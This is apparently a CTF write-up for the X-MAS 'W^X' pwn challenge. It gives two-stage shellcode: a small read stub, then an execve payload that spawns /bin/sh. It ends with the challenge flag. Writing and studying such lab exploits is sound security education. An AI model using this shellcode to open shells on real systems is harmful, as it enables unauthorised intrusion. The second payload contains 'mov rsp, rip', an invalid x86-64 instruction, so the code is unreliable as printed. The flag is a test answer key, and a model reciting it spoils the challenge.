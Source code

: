 # W^X (pwn 484)

## Challenge
The challenge is a shellcoding challenge where memory writes have been hooked such that whenever memory is written to, whatever was written is immediately executed as code. The input attempts to limit the size of your shellcode to 25 bytes, so the solution is to just circumvent that by reading a longer shellcode from stdin.

```asm
xor rax, rax
xor rdi, rdi
lea rsi, [rip]
mov rdx, 0x100
syscall
```

The first payload is sent directly as hex and just reads up to 0x100 bytes from stdin.

```asm
mov rax, 59
mov rsp, rip
add rsp, 19
mov rdi, rsp
add rsp, 27
mov rsi, rsp
mov rdx, rsp
syscall
```
We send this payload along with the string "/bin/sh" after the end of the code.

The second payload is written directly as bytes and is longer shellcode that sets up registers for an execve syscall. The /bin/sh string is already in memory relative to the instruction pointer.

## Flag
X-MAS{7c4c67665ca44cd3f651bbb22631a41c}
